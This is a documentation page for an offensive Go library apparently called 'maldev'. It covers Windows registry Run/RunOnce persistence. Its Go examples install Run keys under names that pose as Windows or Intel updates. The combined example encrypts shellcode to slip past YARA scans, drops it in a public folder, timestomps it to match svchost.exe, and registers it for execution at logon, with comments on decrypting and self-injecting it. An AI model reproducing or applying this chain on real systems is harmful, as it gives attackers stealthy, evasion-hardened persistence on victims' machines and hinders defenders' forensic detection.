

# Registry Run/RunOnce Persistence

[<- Back to Persistence Overview](README.md)

**MITRE ATT&CK:** [T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys](https://attack.mitre.org/techniques/T1547/001/)
**Package:** `persistence/registry`
**Platform:** Windows
**Detection:** Medium

---

## For Beginners

Windows checks certain registry keys every time a user logs on. Any program path written to these keys is automatically executed. This is one of the most common persistence techniques — and one of the most monitored.

**Run** keys persist across reboots. **RunOnce** keys execute once then self-delete.

---

## How It Works



**Registry paths:**
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` — per-user, no elevation
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce` — per-user, one-shot
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` — machine-wide, requires admin
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce` — machine-wide, one-shot

---

## Usage

```go
import "github.com/oioio-space/maldev/persistence/registry"

// Install
err := registry.Set(registry.HiveCurrentUser, registry.KeyRun, "WindowsUpdate", `C:\Temp\payload.exe`)

// Check
exists, _ := registry.Exists(registry.HiveCurrentUser, registry.KeyRun, "WindowsUpdate")

// Remove
err = registry.Delete(registry.HiveCurrentUser, registry.KeyRun, "WindowsUpdate")

// Via Mechanism interface (composable)
m := registry.RunKey(registry.HiveCurrentUser, registry.KeyRun, "WindowsUpdate", `C:\Temp\payload.exe`)
m.Install()
```

---

## Combined Example

Install a registry Run-key that launches a dropper, then timestomp the
dropper so it matches surrounding system files — harder to spot via
`dir /tq` or MFT triage.

```go
package main

import (
    "os"
    "time"

    "github.com/oioio-space/maldev/cleanup/timestomp"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/persistence/registry"
)

func main() {
    // 1. Encrypt payload with AES-GCM (key derived at build time).
    key, _ := crypto.NewAESKey()
    payload := []byte{ /* raw shellcode bytes */ }
    blob, _ := crypto.EncryptAESGCM(key, payload)

    // 2. Drop to disk in a location every process writes to.
    droppers := `C:\Users\Public\Intel\update-cache.bin`
    _ = os.MkdirAll(`C:\Users\Public\Intel`, 0o755)
    _ = os.WriteFile(droppers, blob, 0o644)

    // 3. Timestomp to match a trusted neighbour (svchost.exe here).
    si, _ := os.Stat(`C:\Windows\System32\svchost.exe`)
    t := si.ModTime()
    _ = timestomp.SetFull(droppers, t, t, t)

    // 4. Register boot persistence via HKCU\...\Run — no admin needed,
    //    no SCM noise, survives user logon.
    _ = registry.RunKey(
        registry.HiveCurrentUser,
        registry.KeyRun,
        "IntelGraphicsUpdate",
        droppers, // launcher reads the blob, decrypts, self-injects
    ).Install()

    // Decryption side (at execution time) — same key, reverse:
    //   blob, _ := os.ReadFile(droppers)
    //   sc, _  := crypto.DecryptAESGCM(key, blob)
    //   then feed sc to inject.* of your choice.
    _ = time.Now
}
```

Layered benefit: the on-disk artifact is encrypted (defeats YARA file
scans), its timestamps match a known-good binary (defeats MFT triage),
and the reg value points at a low-privilege user hive (no admin prompt,
no SCM).

---

## API Reference

See [persistence.md](../../persistence.md#persistenceregistry----registry-runrunonce-keys)
